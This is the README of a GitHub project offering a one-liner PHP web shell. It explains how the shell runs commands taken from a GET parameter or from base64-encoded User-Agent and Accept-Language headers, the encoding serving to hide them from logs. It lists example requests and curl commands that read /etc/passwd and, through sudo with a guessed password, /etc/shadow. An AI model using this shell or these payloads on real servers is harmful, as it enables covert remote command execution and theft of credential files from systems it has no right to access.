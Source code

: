 # OLPWS
One Liner PHP Web Shell


## For testing
You can use the internal web server of PHP like this:

```bash
php -S localhost:[port] shell.php
```

## Features
It reads commands from:
* Using GET method: `$_GET['e']`
* Using HTTP User-Agent: define the user-agent header with a base64_encoded payload
* Using HTTP Accept-Language: define the accept-language header with a base64_encoded payload

It automaticaly detects and decode base64_encoded payloads.


## Examples
Somes examples:
* http://host:port/?e=cat%20/etc/passwd
* http://host:port/?e=Y2F0IC9ldGMvcGFzc3dk (the same but base64_encoded)
* Using cURL: `curl http://host:port -A Y2F0IC9ldGMvcGFzc3dk`
* http://host:port/?e=echo%20password%20|%20sudo%20-S%20cat%20/etc/shadow
* http://host:port/?e=ZWNobyBwYXNzd29yZCB8IHN1ZG8gLVMgY2F0IC9ldGMvc2hhZG93 (the same but base64_encoded)
* Using cURL: `curl http://host:port -A ZWNobyBwYXNzd29yZCB8IHN1ZG8gLVMgY2F0IC9ldGMvc2hhZG93`


## Credits
Ideas comes from:
* http://www.grobinson.me/single-line-php-script-to-gain-shell/
* https://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/
* https://stackoverflow.com/questions/2556345/detect-base64-encoding-in-php/47486214#47486214